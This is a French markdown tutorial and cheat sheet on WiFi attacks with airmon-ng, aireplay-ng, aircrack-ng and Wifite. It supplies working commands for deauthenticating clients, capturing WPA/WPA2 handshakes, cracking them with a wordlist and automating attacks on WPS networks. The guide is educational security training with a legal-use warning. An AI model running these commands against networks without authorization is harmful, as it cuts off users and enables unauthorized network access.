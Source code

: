 # 📡 Cours : Hacking WiFi avec Airmon-ng & Wifite (Kali/Parrot OS)

Ce document explique l’utilisation des outils **Airmon-ng** et **Wifite** pour effectuer des attaques sur des réseaux WiFi dans un cadre légal et pédagogique.

⚠️ **Utilisation uniquement sur des réseaux dont vous possédez l’autorisation.**

---

## 🧰 Prérequis

- Système : Kali Linux / Parrot OS
- Une carte réseau compatible **monitor mode** (ex: Alfa AWUS036NHA)
- Privilèges root (`sudo`)

---

## 🛠️ Airmon-ng – Mise en mode monitor

### 📌 Objectif
Passer la carte WiFi en mode **monitor**, nécessaire pour écouter le trafic.

### 🔍 Lister les interfaces

```bash
airmon-ng
```

### 🚀 Activer le mode monitor

```bash
airmon-ng start wlan0
```

Cela va créer une interface `wlan0mon`.

### 🛑 Désactiver le mode monitor

```bash
airmon-ng stop wlan0mon
```

---

## 📶 Airodump-ng – Scanner les réseaux

```bash
airodump-ng wlan0mon
```

Affiche :
- Les points d'accès (BSSID, canal, chiffrement)
- Les clients connectés (STATION)

---

## 💥 Attaque de désauthentification

```bash
aireplay-ng --deauth 10 -a [BSSID] -c [CLIENT_MAC] wlan0mon
```

- `-a` = BSSID de l’AP
- `-c` = MAC du client
- Permet de capturer un **handshake WPA/WPA2**

---

## 🔐 Capturer un handshake

```bash
airodump-ng -c [channel] --bssid [BSSID] -w capture wlan0mon
```

Puis déclencher une désauthentification pour forcer une reconnexion.

---

## 🔓 Cracker le handshake

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b [BSSID] capture.cap
```

---

## 🤖 Wifite – Automatiser l'attaque

### 📌 Objectif
Attaquer automatiquement les réseaux WEP, WPA, WPA2 (avec handshake).

### ▶️ Lancer Wifite

```bash
sudo wifite
```

- Scanne les réseaux à portée
- Choisir une cible avec [Entrée]
- L’outil va :
  - Mettre l’interface en monitor
  - Lancer `airodump`, `aireplay`, `aircrack`
  - Cracker automatiquement les handshakes capturés

---

## ⚙️ Options utiles Wifite

```bash
wifite --kill             # Tuer les process gênants (NetworkManager)
wifite --wps              # Cibler les réseaux WPS activés
wifite --crack            # Ne faire que le cracking (handshake déjà capturé)
wifite --wordlist chemin  # Utiliser une wordlist personnalisée
```

---

## 🧠 Conseils

- Toujours désactiver `NetworkManager` pendant l’attaque :
  ```bash
  service NetworkManager stop
  ```
- Utiliser `airmon-ng check kill` pour libérer les processus bloquants
- Préparer une bonne wordlist (`rockyou.txt`, SecLists, etc.)
- Testez sur un lab WiFi isolé ou une box perso

---

📁 À placer dans `docs/cours/wifi/attaques.md` ou `docs/cheatsheets/wifi-hack.md`

